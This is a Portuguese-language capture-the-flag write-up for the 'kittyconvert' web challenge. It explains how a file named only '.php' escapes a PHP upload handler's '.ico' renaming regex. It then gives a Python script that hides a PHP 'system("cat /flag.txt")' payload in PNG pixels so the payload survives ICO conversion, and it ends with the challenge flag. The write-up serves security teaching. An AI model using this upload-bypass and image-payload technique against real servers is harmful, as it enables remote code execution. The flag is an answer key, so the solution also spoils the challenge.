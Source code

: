 # kittyconvert

*Need to convert a file? Our kittens have got you covered!*

- *Web Exploitation*
- *Autor do writeup: [Luiz Felipe](https://github.com/LuizF14)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>

O desafio disponibiliza um website chamado KittyConvert que permite os usuários converter arquivos PNG para arquivos ICO. Ele também fornece o código-fonte do servidor que carrega o site. O objetivo do desafio é acessar a flag dentro do arquivo `flag.txt` localizado no diretório root do servidor.

## Parte I - Passando pela checagem de extensão
Ao analisar o código-fonte, notamos o trecho de código no arquivo `index.php`: 
``` php
if (isset($_FILES['file'])) {
  $base_dir = "/var/www/html/";
  $ico_file = "uploads/" . preg_replace("/^(.+)\\..+$/", "$1.ico", basename($_FILES["file"]["name"]));
  
  if ($_FILES["file"]["size"] > 8000) {
    echo "<p>Sorry, your file is too large you need to buy Nitro.</p>";
  } else {
    require( dirname( __FILE__ ) . '/class-php-ico.php' );
    $ico_lib = new PHP_ICO( $_FILES["file"]["tmp_name"], array( array( 32, 32 ), array( 64, 64 ) ) );
    $ico_lib->save_ico( $base_dir . $ico_file );
    $success = true;
  }
}
```
A função `preg_replace` nesse código está checando se os arquivos sendo enviados tem alguma extensão. Caso eles tenham, a string `'ico'` é colocada no final do nome do arquivo. Isto apaga a possibilidade de mandar um arquivo `exploit.php` com algum código malicioso e então executá-lo ao requerir o path `/uploads/exploit.php`. No entanto, existe uma alternativa: se o arquivo enviado se chamar apenas `.php`, o código `preg_replace("/^(.+)\\..+$/", "$1.ico", basename($_FILES["file"]["name"]))` não adicionará a extensão `.ico`. Isso ocorre porque a expressão regular exige que haja pelo menos um caractere antes do primeiro ponto (.), o que não é o caso de `.php`.

## Parte II - Construindo o payload
Nós já temos uma parte do problema pronta: como executar código dentro do servidor. Mas nos deparamos com um obstáculo: o conteúdo do arquivo que enviamos é alterado pela classe `PHP_ICO`. Nosso desafio será criar um arquivo PNG que quando sofre as alterações descritas em `class-php-ico.php` gere um código php interessante.
``` python
from PIL import Image

im = Image.new("RGBA", (64,64), "white")
pixels = im.load()
payload = b'<?php    echo   system( "cat /flag.txt" );  ?>  '

for index, el in enumerate(zip(*[iter(payload)]*4)):
    if el[3] % 2 == 1: 
        print(f"Invalid alpha character")
    pixels[(index%64, index//64)] = (el[2],el[1],el[0],el[3])

im.save("exploit.png", "PNG")
```

Já conseguimos explorar uma vulnerabilidade que permite a execução de código dentro do servidor. Entretanto, enfrentamos um novo obstáculo: o conteúdo do arquivo enviado é modificado pela classe `PHP_ICO`.  

Nosso desafio agora é criar um arquivo PNG que, ao sofrer essas alterações pela classe `class-php-ico.php`, gere um código PHP funcional. Para isso, vamos codificar um payload dentro dos pixels da imagem, garantindo que, mesmo após a conversão, ele possa ser interpretado como código PHP executável.  

O código python a seguir cria um arquivo PNG legítimo com tamanho 64 por 64 e preenchido todo com pixels em branco. Em seguida, ele injeta os bytes da variável `payload` nos bytes da imagem. Vale ressaltar que, no formato PNG, as cores seguem o formato RGBA, enquanto que, no formato ICO, as cores seguem o formato BGRA. Por isso a linha de código `(el[2],el[1],el[0],el[3])` invés de `(el[0],el[1],el[2],el[3])`. Além disso, o código também corta o bit menos significativo do campo alpha, nos forçando a deixar somente bytes com o LSB (less significant bit) igual a zero como o valor de alpha. Por essa razão, o payload está formatado dessa maneira.  

Por fim, utilizando esse código para criar um arquivo PNG apropriado e o enviando de acordo o procedimento descrito na parte I, obteremos a flag:
```
x3c{b1tm4p5_4r3_s1mpl3_6u7_7h3_4lph4_1s_w31rd}
```
